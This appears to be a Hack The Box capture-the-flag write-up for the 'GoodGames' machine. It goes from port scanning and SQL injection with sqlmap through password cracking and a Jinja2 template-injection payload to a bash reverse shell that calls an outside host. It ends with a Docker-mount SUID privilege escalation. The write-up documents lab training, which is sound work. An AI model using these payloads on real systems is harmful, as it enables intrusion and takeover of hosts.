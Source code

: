 # **Machine Info**

| OS        | Linux    |
| --------- | -------- |
| **Level** | **Easy** |


# **Walkthrough**
**Enumeration**
1. Scaning the port and found only port 80 open.
```
	┌─[ghoth@parrot]─[~/HTB/machines/goodGames]
	└──╼ $sudo nmap -p- --min-rate=10000 -oA portScan 10.10.11.130
	[sudo] password for ghoth: 
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-05 02:01 +0545
	Nmap scan report for 10.10.11.130
	Host is up (0.21s latency).
	Not shown: 65534 closed tcp ports (reset)
	PORT   STATE SERVICE
	80/tcp open  http
			
	Nmap done: 1 IP address (1 host up) scanned in 7.63 seconds

```
2. Further service and version along with Operating System enumeration with aggressive scan on the open port of target machine.
```
	┌─[✗]─[ghoth@parrot]─[~/HTB/machines/goodGames]
	└──╼ $sudo nmap -p80 -sC -sV -O -T4 -oA serviceScan 10.10.11.130
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-05 02:10 +0545
	Nmap scan report for 10.10.11.130
	Host is up (0.21s latency).
	
	PORT   STATE SERVICE VERSION
	80/tcp open  http    Apache httpd 2.4.51
	|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
	|_http-title: GoodGames | Community and Store
	Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
	Device type: general purpose
	Running: Linux 5.X
	OS CPE: cpe:/o:linux:linux_kernel:5.0
	OS details: Linux 5.0
	Network Distance: 2 hops
	Service Info: Host: goodgames.htb
	
	OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 15.61 seconds
```

3.  The website seem to be related to game posts. 
	- ![](Assets/Pasted%20image%2020250305024900.png)

4. The blog redirected to "/blog", which contains posts. All the blog post seem return to home page, except second post "/blog/1".   
	- ![](Assets/Pasted%20image%2020250305030845.png)
	- There was also comment section with 2 comment by admin but comment the post show "500 internal server error".
	- ![](Assets/Pasted%20image%2020250305031216.png)

5. The store lead to "/coming-soon" page which should the now ended countdown. The subscribe button does nothing when email is entered.
	- ![](Assets/Pasted%20image%2020250305032016.png)


**SQL Injection**

6. Checking for SQL injection in login area. It seem that it is checks email format. Then i intercept the request and in repeater tried the sql injection again which was a success and i got admin access.
	- ![](Assets/Pasted%20image%2020250307203935.png)

7. I then added the email "admin@goodgames.htb" back and save the request in "goodgame.req" file to further enumerate using sqlmap.
	- `sqlmap -r goodgame.req`
	- ![](Assets/Pasted%20image%2020250310015214.png)

8. Enumerating Database and Table:
	- `sqlmap -r goodgame.req --dbs`
	- ![](Assets/Pasted%20image%2020250310015920.png)

	- Enumerating database "main" for its table:
	- `sqlmap -r goodgame.req -D main --tables`
	- ![](Assets/Pasted%20image%2020250310021106.png)

9. Dumping the information from user table in main database:
	- `sqlmap -r goodgame.req -D main -T user --dump`
	- ![](Assets/Pasted%20image%2020250310022821.png)
10. I then look for the hash found that it was MD5 hash and was easily cracked.
	- ![](Assets/Pasted%20image%2020250310022942.png)
	- password = `superadministrator`

11. We got the password. The cog wheel icon in /profile lead to new subdomain. Then, i added the domain and subdomain in /etc/hosts, which lead to new login page.
	- ![](Assets/Pasted%20image%2020250310023656.png)

12. Login with admin username and the password we cracked, we were redirected to new dashboard.
	- ![](Assets/Pasted%20image%2020250310023936.png)

**SSTL (Server Side Template Injection)**

13. In the setting, we discover the option to update Full Name as there is python flask running in backend, i try the SSTL injection  `{{7*7}}` and the name  change to `49`.
	- ![](Assets/Pasted%20image%2020250310031450.png)

14. It is SSTL vulnerable, now checking by inputting the payload whether it works or not.
	- `{{ namespace.__init__.__globals__.os.popen('id').read() }}`
	- ![](Assets/Pasted%20image%2020250310033150.png)

15. System command also works, now its time for reverse shell.
	- `{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.13/8888 0>&1"').read() }}
	- ![](Assets/Pasted%20image%2020250310033446.png)
16. Andddd we got the user flag.
	- ![](Assets/Pasted%20image%2020250310034223.png)

**Docker Escape**

17. We are inside a docker container. How? due to following reasons:
	1. We are root user when we got the shell.
	2. There is `.dockerenv` file in root directory.
		- ![](Assets/Pasted%20image%2020250310035426.png)
	2. In the ownership of the files in `augustus` home directory, it has UID instead of the name and there is no user `augustus` or user `1000`
		- ![](Assets/Pasted%20image%2020250310035714.png)
		- ![](Assets/Pasted%20image%2020250310035909.png)
	3. This hints that the user's home directory is mounted inside the docker container.
		- ![](Assets/Pasted%20image%2020250310040329.png)

18. The ifconfig show that the ip is `172.19.0.2`. Docker usually assign the first address to the subnet to the host system configuration.
	 - ![](Assets/Pasted%20image%2020250310040934.png)
	 - Next is the port scan, since the nmap is not installed in the target machine, we will use Bash. And found 2 port (22 and 80) open.
		 - `for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done`
		 - ![](Assets/Pasted%20image%2020250310041300.png)
		- 22 is SSH and 80 is running website which can be confirm after curl.

19. We try to SSH into the user with the same password `superadministrator` we crack after dumping database. And it actually work. The password was reused in multiple authentication. Before SSH, we upgrade our non-interactive shell to new interactive shell session.
	- ![](Assets/Pasted%20image%2020250310042506.png)

**Privilege Escalation**
20. With information we have, we know that the host (augustus) is mounted into the docker container. So, if we write a file and change their permission to root from within the container, then the same permission is shown looking from users shell.
	- We then copy /bin/bash  file of augustus into his home directory and change the ownership to root and apply the SUID permission on that bash file.
	- ![](Assets/Pasted%20image%2020250310044032.png)
	- ![](Assets/Pasted%20image%2020250310044052.png)

21. We SSH back into the user augustus. Now, the bash file is owned by root and has SUID permission. Executing the bash and spawning the shell, we get root privilege. 
	- ![](Assets/Pasted%20image%2020250310044545.png)